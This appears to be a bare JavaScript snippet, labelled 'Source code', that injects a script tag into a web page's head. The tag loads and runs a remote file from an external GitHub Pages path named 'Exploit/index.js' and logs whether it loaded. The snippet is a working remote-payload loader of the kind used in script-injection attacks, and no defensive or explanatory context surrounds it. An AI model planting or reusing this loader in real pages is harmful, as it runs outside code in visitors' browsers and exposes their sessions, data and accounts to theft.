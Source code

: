 ....


if (typeof p === 'undefined') {
    const p = document.createElement('script');
    p.src = 'https://shashank604.github.io/Exploit/index.js';

    p.onload = () => {
        console.log('Script loaded successfully.');
    };

    p.onerror = () => {
        console.error('Failed to load the script.');
    };

    document.head.appendChild(p);
}
